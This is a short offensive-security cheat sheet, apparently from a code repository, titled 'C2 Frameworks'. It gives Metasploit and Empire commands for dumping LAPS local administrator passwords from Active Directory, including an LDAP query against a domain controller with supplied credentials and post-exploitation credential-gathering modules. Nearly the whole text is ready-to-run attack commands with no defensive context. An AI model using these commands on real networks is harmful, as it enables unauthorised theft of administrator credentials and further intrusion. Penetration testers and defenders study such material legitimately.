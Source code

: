 # C2 Frameworks

## 01 - LDAP Port

```
msf > use auxiliary/gather/ldap_query

msf auxiliary(gather/ldap_query) > set action run_single_query

msf auxiliary(gather/ldap_query) > set query_attributes (ms-MCS-AdmPwd=*)

msf auxiliary(gather/ldap_query) > set query_filter ms-MCS-AdmPwd

msf auxiliary(gather/ldap_query) > run rhost=<domain_controller_IP> username=<username>@<domain>.<tld> password=<password>
```

## 02 - Interactive Shell

### 2.1 - Metasploit

```
meterpreter > run post/windows/gather/credentials/enum_laps
```

### 2.2 - Empire

```
(Empire: AGENT_NAME) > usemodule credential/get_lapspasswords

(Empire: AGENT_NAME) > execute
```

---
## References

### Hacking Articles

- [Hacking Articles: Credential Dumping - LAPS](https://www.hackingarticles.in/credential-dumpinglaps/)